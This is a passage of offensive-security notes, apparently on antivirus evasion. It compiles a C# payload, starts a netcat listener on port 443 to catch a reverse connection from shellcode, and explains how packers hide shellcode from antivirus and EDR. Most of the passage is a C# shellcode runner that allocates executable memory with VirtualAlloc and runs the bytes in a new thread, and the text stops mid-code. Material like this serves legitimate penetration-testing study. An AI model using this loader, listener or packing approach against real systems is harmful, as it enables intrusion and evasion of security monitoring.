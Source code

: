 Convert the C# code into an executable
```powershell
C:\> csc.exe EncStageless.cs
```

Create a netcat listener on the attacker's machine to catch the connection made by the shellcode.
```bash
nc -lvp 443
```
## Packers 

**Packers** 

- Used to compress a program to take up less space
- Protect a program from being reversed engineered 
- Packing includes compressing, encrypting, and debugging protections
- Some packers include, UPX, MPRESS, Themida, and others
- Usually a function called a packing function
- Code needs to be easily reversed by an unpacking function
- The packer embeds a code stub that contains an unpacker and a entry point to it. 

**Packers and AVs**

- By using packers the shellcode becomes unrecognizable
- Although, if the unpacker matches a malicious signature it will alert the AV or EDR.
- Once the code is unpacked and placed in memory it can be caught by EDR systems if it were to monitor activity in the memory.

```csharp
using System;
using System.Net;
using System.Text;
using System.Configuration.Install;
using System.Runtime.InteropServices;
using System.Security.Cryptography.X509Certificates;

public class Program {
  [DllImport("kernel32")]
  private static extern UInt32 VirtualAlloc(UInt32 lpStartAddr, UInt32 size, UInt32 flAllocationType, UInt32 flProtect);

  [DllImport("kernel32")]
  private static extern IntPtr CreateThread(UInt32 lpThreadAttributes, UInt32 dwStackSize, UInt32 lpStartAddress, IntPtr param, UInt32 dwCreationFlags, ref UInt32 lpThreadId);

  [DllImport("kernel32")]
  private static extern UInt32 WaitForSingleObject(IntPtr hHandle, UInt32 dwMilliseconds);

  private static UInt32 MEM_COMMIT = 0x1000;
  private static UInt32 PAGE_EXECUTE_READWRITE = 0x40;

  public static void Main()
  {
    byte[] shellcode = new byte[] {0xfc,0x48,0x83,...,0xda,0xff,0xd5 };


    UInt32 codeAddr = VirtualAlloc(0, (UInt32)shellcode.Length, MEM_COMMIT, PAGE_EXECUTE_READWRITE);
    Marshal.Copy(shellcode, 0, (IntPtr)(codeAddr), shellcode.Length);

    IntPtr threadHandle = IntPtr.Zero;
    UInt32 threadId = 0;
    IntPtr parameter = IntPtr.Zero;
    threadHandle = CreateThread(0, 0, codeAddr, parameter, 0, ref threadId);

    WaitForSingleObject(threadHandle, 0xFFFFFFFF);
```